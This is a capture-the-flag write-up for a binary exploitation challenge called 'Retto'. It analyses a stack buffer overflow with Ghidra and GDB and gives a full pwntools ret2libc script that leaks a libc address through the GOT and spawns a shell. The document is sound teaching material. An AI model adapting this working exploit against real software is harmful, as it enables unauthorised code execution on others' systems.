

---
title: "CWE Challenge - Retto"
author: Michael Mendoza
date: "2023-01-20"
subject: "Binary Exploitation"
keywords: [CTF, binary exploitation, Screening]
lang: "en"
titlepage: true
title-page-color: "141d2b"
titlepage-rule-color: "11b925"
titlepage-text-color: "FFFFFF"
toc: true
toc-own-page: true
titlepage-background: "./images/titlePage.jpeg"
...

# Information Gathering

After running the file and checksec command, we can see that we are looking at a 64 bit file with no canary and no PIE enabled. This is good bc we dont have to worry about Position Independent addresses as well as stack canaries. Return Oriented Programming is ideal in this situation. 

\ **Figure 1:** Information about the binary

## Ghidra

After observing the main function we can see a read_in function that has the vulnerability we are looking for.


 **Figure 2:** Read_In Function
 
On the right side of Ghidra, we can see the decompiled read_in function showing that there is a buf variable with 44 bytes allocated to it, but the scanf function just reads in bytes without specifying a limit. This is where the buffer overflow vulnerability is located. On the left side we can see that the buf variable is at an offset of 0x38, but we will verify this later with GDB.
 
I did not see a win function, so this means we will have to create a payload to exploit the binary and get a return shell. However, since NX is enable, we are not able to write to the stack. We will have to use ROP, or Return Oriented Programming, to create our shell.

## Exploit Creation Explained 

One way to create a shell using ROP is to leak an address from libc, finding the functions necessary to do this can be done manually or automatically using the PWNTOOLS python library.

The point of leaking an address from libc is to find the offset to the base of libc, which is the address where libc was loaded into. If we can calculate the base address, then we can access anything from its offset, including the important system call needed to get a reverse shell!

The payload we want to create will first leak an address, so after calculating the base address, we will return to the main function and send another payload returning to a system call function in libc. Calling "System()" with the "/bin/sh" string as an argument will drop you into a shell!

Before creating our payload, we still need to verify the offset from the user input to the instruction pointer.

## Debugging with GDB (GEF)

After running the process in GDB, we Dissasemble the read_in function and set a break point after the scanf function is called. This allows us to see what the offset is from the user input to the instruction pointer.


\ **Figure 3:** Breakpoint 1
 

\ **Figure 4:** Finding the Offset

Here we can see that the user input starts at 0x7fffffffdf30 and the rip is at 0x7fffffffdf68. Doing some quick math, the offset is 0x38.


\ **Figure 5:** Finding the Offset


Now that we verified the offset, we can create our exploit.

# Exploitation

## Python Script

In the script, running the ELF(binary) function allows us to manipulate the binary and search for addresses needed for the exploit! 

```
#! /usr/bin/env python3

from pwn import *

#stored as an elf object so we can search the binary for needed address or grab values from addresses
rettoELF = ELF('./retto') 

#just like the binary above we can do this to search through libc
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

#create a ROP object which allows us to look up symbols in the binary
rettoROP = ROP(rettoELF)

target = process('./retto')

padding = b'A' * 0x38 #padding up to the instruction pointer


# 1st ROP chain will consist of padding, pop rdi, address of scanf from GOT which we want leaked, call the puts function, and then return to main
payload = padding
payload += p64(rettoROP.find_gadget(['pop rdi', 'ret'])[0]) #find a list of pop rdi gadgets and grabs the first one
payload += p64(rettoELF.got.__isoc99_scanf) #finds scanf from the Global Offset Table (GOT) and places the address into rdi to be leaked
payload += p64(rettoELF.plt.puts) #call puts from the procedural linkage table to print out the leaked address from the GOT
payload += p64(rettoELF.symbols.main) #finds main to jump back to the beginning
target.sendlineafter(b'here?', payload) #this will send the payload after the prompted question

#save the leaked address
target.recvline() #didnt need this line
leak = u64(target.recvline().strip().ljust(8, b'\0')) #save the leaked address and unpack it (ljust bc its little endian)

log.info(f'{hex(leak)}') #print out the status message for leaked address


#calculate the base address
libc.address = leak - libc.symbols.__isoc99_scanf #calculate base libc by subtracting the leaked scanf by the offset given in libc.symbols
log.info (f'Libc base => {hex(libc.address)}') ##print out the status message for libc base address (should end in 000)


# 2nd ROP Chain padding, pop rdi, reference to /bin/sh, ret for stack alignment, call system
payload = padding
payload += p64(rettoROP.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(libc.search(b'/bin/sh'))) # searches libc for the next /bin/sh string and is placed in the rdi register
payload += p64(rettoROP.find_gadget(['ret'])[0]) # needed for stack alignment
payload += p64(libc.symbols.system) # calls system from libc with /bin/sh as its arguement which will drop to a shell, this is only possible since we calculated the base address of libc!


target.sendline(payload) # send payload again for shell

target.interactive()
```

At first it may seem as though we could just bypass the process of leaking an address by just calling "libc.symbols.system" from the beginning, but for pwntools to know where anything in the GOT is, we need to have the base address saved in "libc.address". From there it will be able to find any address since the offset of the addresses don't change.

## Flag

\ **Figure 6:** Running the Exploit

# Conclusion
Having a good understanding of how the operating system works with dynamically linked binaries was the key to solving this challenge; learning how the Procedural Linkage Table and the Global Offset Table work together to allow the binary to call functions. 


# References
1. [https://guyinatuxedo.github.io/index.html](https://guyinatuxedo.github.io/index.html)
2. [https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got)
3. [https://docs.pwntools.com/en/stable/elf/elf.html](https://docs.pwntools.com/en/stable/elf/elf.html)
4. [https://docs.pwntools.com/en/stable/rop/rop.html](https://docs.pwntools.com/en/stable/rop/rop.html)
